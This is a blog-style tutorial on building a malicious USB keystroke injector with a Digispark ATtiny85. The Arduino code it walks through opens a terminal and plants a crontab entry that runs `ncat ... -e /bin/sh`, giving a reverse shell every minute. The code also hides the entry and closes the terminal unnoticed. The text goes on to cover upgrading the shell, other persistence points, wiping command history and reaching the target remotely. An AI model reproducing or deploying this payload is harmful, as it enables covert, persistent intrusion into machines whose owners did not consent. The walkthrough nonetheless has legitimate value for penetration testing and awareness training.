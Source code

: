 ```yaml
---
layout: page
title: USB Keyboard Injectors - using the Digispark Attiny 85
permalink: /usb_injectors/
---
```


# Introduction
If you are unaware of what USB injectors are they essentially act as a keyboard with pre-programmed instructions. These instructions act as normal keystrokes that you would see from any other keyboard, it just stores what you want to type out and does so automatically when the USB is plugged in. This is very useful because a keyboard is implictly trusted and there are a number of shortucts that can be used to reach a command prompt / shell, run dialog, or anything else that can be used to compromise a machine.<br><br>
On top of this, a study conducted by the Department of Homeland Security years ago showed that, situation dependant, [over 50% of people that picked up the USBs plugged them in to their computers](https://www.computerworld.com/article/2510014/government-tests-show-security-s-people-problem.html). These numbers increase when the USBs have official looking logos and decrease with proper education / security awareness. Even if the number today is only half what is was back then it remains a concerning statistic, but great for those trying to use people to compromise a machine or network. Malicious USBs can be absolutely devastating to a network or operation, just look at what happened in Iran with Stuxnet (of which the U.S. was 100%, absolutely, unquestionably in _no way_ involved). I trust you'll pick up on that.
<br><br>
As mentioned, this page will cover the [Digispark Attiny 85](http://digistump.com/products/1), pictured below.<br>
<p align="center"><img width="300" src="/assets/malicious_usbs/digiattiny85.jpg"></p>
These scripts can be installed on the Digispark boards through the Arduino IDE, which can be downloaded from [here](https://www.arduino.cc/en/software). I'm not going to cover the exact installation process because whether you go the Windows or Linux route it's going to be a pain, and there are more than enough tutorials already out there that cover the process. If you go the Linux route you'll need to configure udev rules for your system (reference [here](https://startingelectronics.org/tutorials/arduino/digispark/digispark-linux-setup/)) or install the correct drivers if you go the Windows route (start [here](https://github.com/digistump/DigistumpArduino/releases)).
<br><br><br>

# Configuring the crontab to install a reverse shell
The script I wrote can be found in its entirety [here](https://raw.githubusercontent.com/fe-moldark/wesleykent-website/gh-pages/assets/malicious_usbs/reverse_shell_crontab.ino), and before you actually try to write this to the Digispark board you will need to edit the IDE's preferences tab to install the Digispark library and then from the boards manager as well on the IDE - again, there are a million tutorials for this.
<br><br>
Excluding defining a few keys in the beginning the script takes place almost entirely in the `void loop()`, which I will now go over. This section below will press the key combination "CTRL+ALT+T", which on Ubuntu (and other linux distros) will open up a console. From there the I entered in `crontab -e` which will allow us to edit the crontab in the next step. Here is what that looks like:
<br>
```scala
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT); //start the shell
  DigiKeyboard.delay(600);
  DigiKeyboard.print("crontab -e");
  DigiKeyboard.delay(300);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
<br>
This next section is necessary because of an unknown factor, which is whether or not the user has configured their crontab before. If a user has already done so then the above `crontab -e` will bring them straight to editing. If they have not, however, there will first be a prompt to select a text editor to use (e.g. nano, vim, etc) and only then will you be forwarded to it. Since one can't know this, the script assumes that the crontab has _not_ been configured and enters in the proper keystrokes to get you there. If it already has been configured then you will needlessly enter in a "1" to what would have selected the editor and then the "ENTER" key, which is then erased by two quick backspace keystrokes. What that looks like is as follows:
```scala
  //In case no crontab has been installed
  DigiKeyboard.print("1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.delay(700);
```
<br>
These next few lines will navigate far down to the bottom of the crontab in an attempt to hide the reverse shell command at first glance:
```scala
  //punch down to the very bottom to hide the following command
  for (int i=0;i<45;i++) {
    DigiKeyboard.sendKeyStroke(KEY_ARROW_DOWN);
  }
```
<br>
Now to actually write the reverse shell command into the crontab. The five asterisks indicate this script will run every minute of every hour of every day. If you wanted to have this only execute at a particular time of day you could designate e.g. every Wednesday at 6:15PM instead.<br>
```scala
  DigiKeyboard.print("* * * * * ncat 192.168.11.59 4444 -e /bin/sh"); //this will need to be customized to your local IP and port
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
Note: It might be worth it to install two separate commands, one with `ncat` and the other with `nc` since only one of those might be installed on the machine. You will also need to configure your own IP address into this command.<br><br>
After installing that cronjob the following keytrokes will exit the crontab with "CTRL+X" and then save the changes with "Y" and "ENTER"" to confirm.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_X , MOD_CONTROL_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_Y);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
```
<br>
The last command, "CTRL+SHIFT+Q" will close out the shell so no one is aware of what just happened.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_Q , MOD_CONTROL_LEFT | MOD_SHIFT_LEFT); //close out the terminal
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*empty*/
  }

}
```

To receive the shell on your local host all that is needed is a netcat listener open on the right IP address and corresponding port:
<p align="center"><img width="850" src="/assets/malicious_usbs/nc listener.png"></p>
The shell we initially recieve is not very stable or powerful. For example, when I tried to switch users in the first shell that was provided the prompt for the password appeared on the target machine instead of my own, and there were a number of other commands that similarly did not work. Now there are several ways to upgrade the shell, some of which I covered on [this](/tipsandtricks/privilegeescalation/) page. Perl was either not installed on this machine or did not work, and same with Python. Python3, however, was installed and I could upgrade the shell as seen with the following command:<br>
<p align="center"><img width="625" src="/assets/malicious_usbs/upgrade shell.png"></p><br>
From there you can install more scripts to further enumerate and exploit the machine, and install more malware to grant you backdoor access in the event that the crontab command is discovered and removed, perhaps that user account is deleted entirely, etc.
<br><br><br>

# Final thoughts
It's worth noting that different users will have separate crontabs, but they will still execute even when not logged in. I noticed this when I first uploaded the reverse shell to a test user, completely logged out of that account to work on writing this page and the nc listener still activated later from that same cronjob.
<br><br>
This same idea of using the crontab to keep a constant reverse shell pathway open is not the only option. Since this exploit is focused on Linux you could also target the `rc.local` and `.bashrc` files to only reach out to you whenever the system boots or when a user opens a new shell. Get as creative as you want with it.
<br><br>
Another way to hide your actions before you close out the shell would be to delete the last commands you have entered from the history file, but you would only need that if you were trying to cover every possible trace. Since you will likely not always be on the same network you are trying to exploit you might want to use your Public IP address or some proxy server instead, and after configuring proper port forwarding rules you could gain access remotely from the comfort of your own home.
<br><br>
And this goes without saying but I'm going to say it anyways - don't do anything stupid with these USBs or scripts. If you do that's all on you. Cheers.
<br><br>
